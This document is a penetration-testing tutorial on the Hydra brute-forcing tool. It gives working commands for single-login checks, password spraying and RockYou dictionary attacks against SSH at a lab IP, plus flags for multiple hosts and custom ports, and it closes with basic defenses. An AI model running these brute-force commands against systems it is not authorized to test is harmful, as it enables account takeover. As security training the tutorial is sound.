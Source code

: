 ```yaml
---
title: "How to Use Hydra to Hack Passwords – Penetration Testing Tutorial"
description: "Learn more about Hydra"
icon: "code"
draft: false
---
```


## Introduction

Hydra is a powerful brute-forcing tool used by penetration testers and ethical hackers to crack passwords of network services. It can perform rapid dictionary attacks against more than 50 protocols, including Telnet, FTP, HTTP, HTTPS, SMB, databases, and several other services. Developed by the hacker group "The Hacker’s Choice," Hydra was first released in 2000 as a proof-of-concept tool for attacking network logon services.

Unlike sequential brute-forcing tools, Hydra is a parallelized login cracker, allowing multiple connections simultaneously, significantly reducing the time required to crack a password.

This section will guide you through using Hydra, covering installation, common attack types, and essential flags and options. Note: This tutorial is for educational purposes only. Always obtain permission before scanning, brute-forcing, or exploiting any system.

## How to Install Hydra

### Pre-installed Systems

Hydra comes pre-installed with Kali Linux and Parrot OS. If you are using one of these, you can start working with Hydra immediately.

### Ubuntu

Use the `apt` package manager to install Hydra:

```sh
$ sudo apt install hydra
```

### macOS

Hydra is available under Homebrew:

```sh
$ brew install hydra
```

### Windows

It's recommended to use a virtual box and install Linux. Using Windows for professional penetration testing is not advisable.

## How to Work with Hydra

### Starting with Hydra

Begin by exploring the help command to understand Hydra's options:

```sh
$ hydra -h
```

This command provides a list of flags and options available in Hydra.

<blockquote class="imgur-embed-pub" lang="en" data-id="fPGDlMF" data-context="false" ><a href="//imgur.com/fPGDlMF"></a></blockquote><script async src="//s.imgur.com/min/embed.js" charset="utf-8"></script>

### Single Username/Password Attack

To perform a simple attack with known username and password:

```bash
$ hydra -l <username> -p <password> <server> <service>
```

Example:

Assume you had a user named `admin`, and password named `admin` hosted at `10.10.137.50`. (Make sure you have a service running at a hosted address and can connect via ssh).

```sh
$ hydra -l admin -p admin 10.10.137.50 ssh
```

### Password Spraying Attack

To perform a password spray attack where you test a known password against multiple usernames (in a case where you don't know exactly who the user is):

1. Create a file called `users.txt` with the following content:

```bash
root
admin
user
tech
steve
richard
```
2. Run the password spray attack:
   We are going to test the password "admin".
```sh
   hydra -L users.txt -p admin 10.10.137.50 ssh
```

### Dictionary Attack

To perform a dictionary attack using a list of passwords:

1. Use the RockYou wordlist, typically found at `/usr/share/wordlists/rockyou.txt` on Kali Linux or on ([github](https://github.com/teamstealthsec/wordlists)).
2. Run the dictionary attack:

```sh
$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.137.50 ssh
```

### Verbosity and Debugging

Hydra can be awfully quiet when running large brute-force attacks. If we have to make sure Hydra is doing what it is expected to do, there are two flags we can use.

The verbosity (-v) flag will show us the login attempt for each username/password combination. This can be a bit much when there are a lot of combinations to go through, but if it is something you need, we can use the verbosity flag.

#### Verbosity Flag

To show each login attempt:

```sh
$ hydra -v -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.137.50 ssh
```

#### Debug Flag

To gather more detailed information:

```sh
$ hydra -d -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.137.50 ssh
```

### Saving Results

To save the results of your attack:

```sh
$ hydra -l <username> -p <password> <ip> <service> -o <file.txt>
```

## Additional Flags and Formats

### Service Specification

Specify the service with the IP address:

```sh
$ hydra -l <username> -p <password> ssh://<ip>
```

### Resuming Attacks

Resume a session if Hydra exits during an attack:

```sh
$ hydra -R
```

### Custom Ports

Specify custom ports if services run on non-default ports:

```sh
$ hydra -l <username> -p <password> <ip> <service> -s <port>
```

### Attacking Multiple Hosts

Attack multiple hosts using a file containing a list of IP addresses:

```sh
$ hydra -l <username> -p <password> -M <host_file.txt> <service>
```

### Targeted Combinations

Use specific username/password combinations:

1. Create a file `combinations.txt` with the format:
```txt
username1:password1
username2:password2
username3:password3
```
2. Run the command:
```sh
$ hydra -C combinations.txt <ip> <service>
```

## How to Defend Against Hydra

### Strong Passwords

Use strong passwords to make brute-force attacks difficult.

### Password Policies

Enforce policies to change passwords regularly.

### Limiting Authorization Attempts

Lock accounts after a few failed login attempts to prevent brute-force attacks.

### Use Re-captcha

Implement re-captcha to prevent automated brute-force attacks.

## Summary

Hydra is a fast, flexible network brute-forcing tool essential for penetration testing. With its modular architecture and support for parallelization, Hydra can be extended to include new protocols and services easily. Always use Hydra responsibly and ethically.